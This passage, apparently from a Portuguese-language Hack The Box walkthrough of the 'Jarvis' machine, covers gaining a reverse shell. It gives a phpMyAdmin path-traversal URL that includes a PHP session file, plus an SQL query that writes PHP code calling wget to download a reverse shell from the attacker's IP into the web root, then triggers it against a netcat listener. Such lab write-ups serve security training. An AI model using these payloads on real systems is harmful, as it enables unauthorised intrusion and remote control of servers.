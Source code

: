 `http://supersecurehotel.htb/phpmyadmin/index.php?target=db_sql.php%253f/../../../../../../../var/lib/php/sessions/sess_m0l9j4lg4m8kngvfhonptpgtgcdhu8bh`

Executo caminho especificado no exploit e executo o phpinfo

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-jarvis/J_p9.png)

Agora vamos pegar uma reverse shell

## Ganhando reverse shell

Primeiro passo é montar nossa reverse shell php a ser executada no servidor, vou utiizar uma que já vem por padrão na máquina

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-jarvis/J_a.png)

Trocamos a porta e IP

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-jarvis/J_a1.png)

Levantamos um servidor Web Python e um nc na porta 443 na nossa máquina

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-jarvis/J_a2.png)

Agora vamos executar no servidor a query para ele realizar download do reverse shell na nossa máquina

`select '<?php exec("wget -O /var/www/html/shell.php http://10.10.16.117/reverse.php"); ?>'`

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-jarvis/J_a3.png)

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-jarvis/J_a4.png)

Pegamos o cookie

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-jarvis/J_a5.png)

> 61v8e4c3qceb36e9s9s6ogrhi5fc3qrs

Montamos a query

`http://supersecurehotel.htb/phpmyadmin/index.php?target=db_sql.php%253f/../../../../../../../var/lib/php/sessions/sess_61v8e4c3qceb36e9s9s6ogrhi5fc3qrs`

Executamos para ele baixar o arquivo no servidor

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-jarvis/J_a6.png)

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-jarvis/J_a7.png)

Agora acessamos o shel.php e ganhamos a reverse shell

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-jarvis/J_a8.png)

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-jarvis/J_a9.png)
